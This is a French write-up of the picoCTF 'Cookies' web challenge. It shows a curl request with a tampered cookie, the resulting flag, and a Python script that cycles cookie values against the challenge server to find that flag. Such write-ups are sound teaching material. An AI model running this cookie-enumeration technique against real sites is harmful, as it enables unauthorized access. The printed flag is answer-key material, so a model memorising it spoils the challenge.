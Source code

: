 # Cookies

## 0x1 Description

>Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:17781/

## 0x2 Analyse

Encore une fois, la description est très explicite, nous allons devoir jouer avec les cookies et il y en aura surement un meilleur que les autres

Après avoir entré le nom du premier biscuit qu'ils nous propose, nous avons la structure du cookie qui nous est donnée:

![Cookie's structure](./IMG/cookie.png)

Pas besoin d'être un génie pour comprendre qu'il va falloir incrémenter la valeur contenue dans **name**

## 0x3 Résolution avec cURL

Le principe est de faire une petite boucle qui va incrémenter la valeur et appeler la vérification avec cette donnée.

Ce qui donne après quelques itérations le résultat suivant:

>curl --cookie "name=18" http://mercury.picoctf.net:17781/check
>
>flag = picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}

## 0x4 Vérification avec Cookie Quick Manager

Avec n'importe quel éditeur de cookie, vous pouvez le modifier et une fois la page rechargée voir apparaitre la solution:

![flag](./IMG/flag.png)

## 0x5 Résolution avec un script en python

Comme expliqué , nous allons faire une boucle qui testera toutes les possibilité de cookie, pour ce faire, voici le code que j'ai écrit:

```python
#!/usr/bin/env python

import pwn
import requests
import re

regex = "picoCTF{.*?}"
url = "http://mercury.picoctf.net:17781/check"
s = requests.Session()
boucle = True

def Exploit():
    pwn.info("Searching for the flag")
    while boucle:
        for miaou in range (0,100):
            pwn.info("."*(miaou+1))
            cookies = {'name': str(miaou)}
            req = s.get(url, cookies=cookies)
            req = req.content
            result = re.findall(regex, str(req))
            flag = result
            if result:
                for f in flag:
                    pwn.success("Flag is: {}".format(f))
                    break
                return
Exploit()
```
